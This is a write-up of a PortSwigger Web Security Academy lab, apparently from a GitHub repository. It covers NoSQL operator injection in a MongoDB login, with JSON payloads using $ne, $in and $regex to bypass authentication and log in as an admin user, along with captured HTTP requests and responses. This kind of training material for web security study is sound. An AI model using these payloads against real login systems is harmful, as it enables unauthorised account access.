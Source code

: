 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/ae988849-49c1-4d58-a786-6d008dc8fd0c)

## Overview :

 NoSQL databases often use query operators, which provide ways to specify conditions that data must meet to be included in the query result. Examples of MongoDB query operators include:

- `$where` - Matches documents that satisfy a JavaScript expression.
- `$ne `- Matches all values that are not equal to a specified value.
- `$in` - Matches all of the values specified in an array.
- `$regex` - Selects documents where values match a specified regular expression.

> In JSON messages, you can insert query operators as nested objects. For example, `{"username":"wiener"}` becomes `{"username":{"$ne":"invalid"}}`.

Consider a vulnerable application that accepts a username and password in the body of a POST request:
```json
{"username":"wiener","password":"peter"}
```

Test each input with a range of operators. For example, to test whether the username input processes the query operator, you could try the following injection:
```json
{"username":{"$ne":"invalid"},"password":{"peter"}}
```

If the $ne operator is applied, this queries all users where the username is not equal to invalid.

If both the username and password inputs process the operator, it may be possible to bypass authentication using the following payload:
```json
{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
```

This query returns all login credentials where both the username and password are not equal to invalid. As a result, you're logged into the application as the first user in the collection.

To target an account, you can construct a payload that includes a known username, or a username that you've guessed. For example:
```json
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
```

## Solution :

When we try to login a wiener, the following is the request being sent.

```http
POST /login HTTP/1.1
Host: 0a2e004e0498675c8294e27d00550012.web-security-academy.net
Cookie: session=FidptxGNO2o5A1gT6hVGVo0ahawPmQaa
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2e004e0498675c8294e27d00550012.web-security-academy.net/login
Content-Type: application/json
Content-Length: 40
Origin: https://0a2e004e0498675c8294e27d00550012.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"username":"wiener","password":"peter"}
```
If we use - `{"username":{"$in":"admininistrator"},"password":{"$ne":""}}` , it won't login, since the name of admin user is not administrator but some random string like *admin@fra12*.

Use the **regex** operator to login as any user whose name starts with admin.
```json
{"username":{"$regex":"admin*"},"password":{"$ne":""}}
```

The above nosql payload takes any username that starts with admin  & checks whether the password is not equal to null value (which will result in TRUE since there will be no password which is null.)

From the response we can see that the name of admin user is - `adminsmto9bvx`
```http
HTTP/2 302 Found
Location: /my-account?id=adminsmto9bvx
Set-Cookie: session=fGElqIm2RxpmcGKeA1faciz8HjHYRQ8G; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
Upon opening the response in browser, we can see that we've logged in as admin & the lab is solved.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/471abd07-405b-4a6f-b76e-9513a383329b)

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9c6bfc75-9c52-4764-b8ba-6ae626a50d97)
